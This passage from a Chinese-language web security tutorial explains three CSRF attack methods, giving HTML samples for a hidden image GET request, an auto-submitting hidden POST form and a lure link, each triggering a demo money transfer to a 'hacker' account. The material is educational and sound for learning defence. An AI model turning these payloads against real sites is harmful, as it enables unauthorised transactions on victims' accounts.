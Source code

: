 打开攻击者提供的页面后，攻击者有 3 种方式实施 CSRF 攻击：

* **方法一：自动发起 Get 请求**

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF 攻击演示</h1>
    <img src="https://jsliang.top/index.html?user=hacker&number=100">
  </body>
</html>
```

黑客将转账的请求接口隐藏在 `img` 标签内，欺骗浏览器这是一张图片资源。

当该页面被加载时，浏览器会自动发起 `img` 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 块就被转移到黑客的账户上去了。

* **方法二：自动发起 POST 请求**

```html

<!DOCTYPE html>
<html>
<body>
  <h1>黑客的站点：CSRF 攻击演示</h1>
  <form id='hacker-form' action="https://jsliang.top" method=POST>
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="number" value="100" />
  </form>
  <script>
    document.getElementById('hacker-form').submit();
  </script>
</body>
</html>
```

在页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。

当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。

因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交。

* **方法三：引诱用户点击链接**

```html
<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg>
  </div>
<div>
  <a href="https://jsliang.top?user=hacker&number=100" taget="_blank">
    点击下载美女照片
  </a>
</div>
```

传说中的色诱，或者 “点击即送 100w 元” 之类的。
